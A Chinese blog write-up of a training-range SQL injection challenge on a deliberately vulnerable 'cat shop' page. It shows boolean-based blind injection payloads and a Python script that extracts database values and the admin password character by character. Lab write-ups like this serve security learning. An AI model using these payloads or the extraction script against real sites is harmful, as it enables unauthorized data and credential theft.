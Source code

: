 ```yaml
---
title: 记一次用Python挑战SQL注入
date: 2020-04-13
tags:
  - Python
  - 渗透测试
---
```

## 前言
- 最近哥们给我分享了一个靶场地址，疫情在家闲着无聊便拿来挑战一下。
- [靶场地址](https://hack.zkaq.cn/)
## 分析
- 可以看到，题目要求是拿到管理员密码即可。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171506664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

- 再进入靶机页面瞅瞅，看来就是要在url上操作了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171823314.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
- 简单加一个and 1=1和and 1=2，发现1=1时，显示下面的猫舍介绍，1=2时，不显示猫舍介绍。这个变化就作为分辨依据。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413174244815.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

## 开始挑战
### 先拿一手user()（此时我已经忘记题目要求要拿管理员密码。。。。。）
##### 先拿user()长度
- 先and char_length(user())>0，OK
- 再and char_length(user()>100),ERROR
- 。。。。。。（中间省略，自己慢慢试）
- 就这样把user()的长度试了出来，16。
##### 长度出来，试字段
- 用and ASCII(mid(user(),1,1))>0，试出来后查表转换为字符
- 然后我们用python（不要问我为啥突然用python，试了8个字符后，手都试酸了。。。T0T）
- 上代码（代码不能直接用啊，自己简单分析一下，根据自己要获取的内容改一下，再补全IP就能用了）

```python
import re,requests

result = []
string = []
for j in range(1,17):	#循环第几个字符
    for i in range(97,123):	#从ASCII码表的第几到几开始试，试全部可能会慢很多
        #url = 'http://117.167.*.*:10180/index.php?id=1%20and%20(select%20ascii(mid(password,'+str(j)+',1))%20from%20admin)='+str(i) #找password时候用的
        #url = 'http://117.167.*.*:10180/index.php?id=1'+'and ASCII(mid(1,1))='+str(i)
        url = 'http://117.167.*.*:10180/index.php?id=1%20and%20ASCII(mid(user(),'+str(j)+',1))='+str(i)
        res = requests.get(url)
        res.encoding = 'utf8'
        if("猫舍介绍" in res.text):#判断返回的是OK还是ERROR
            print(str(j)+'是'+str(i))
            result.append(str(j)+':'+str(i))
            string.append(str(j)+':'+chr(i)) #将得到的编码自动转换成字符
            break
        else:
            print('不是'+str(i))

print(result)
print(string)
```
- 程序运行完之后记得查看输出结果是否有没试出来的字符，可以换个区间重新试一下或者自己手动试。

### 同理再拿一手database()
- maoshe
### 再拿一手version()
- 5.5.53
### 再拿一手hostname
- gongksik_d45fb6
### 再拿一手。。。。。。
### 哎，我到底要拿啥来着，哦对，管理员密码
#### 先找表
- 先随便试一下有没有admin表，and (select count(*) from admin)>0，Woc！！！还真有！
- 再随便试一下有没有password字段，and(select count(password) from admin)>0，Woc！！！又有！
- 这里博主走了点狗屎运，读者请勿模仿，自行一个个猜哈~
- 接下来就简单了，用上上面的python代码
- 注入标记改为(select ASSII(mid(password,1,1)))>0
- 然后就得到了管理员密码——（自己试去，┑(￣▽ ￣)┍）
### 接下来最重要的步骤——登录MySQL系统
- 等好久都不成功，才想起我们的目标只是拿到管理员密码。。。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413180149362.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
## 后记
- 本次SQL注入到此结束，还愣着干啥，点赞关注走一走啊。。。。（￣︶￣）↗

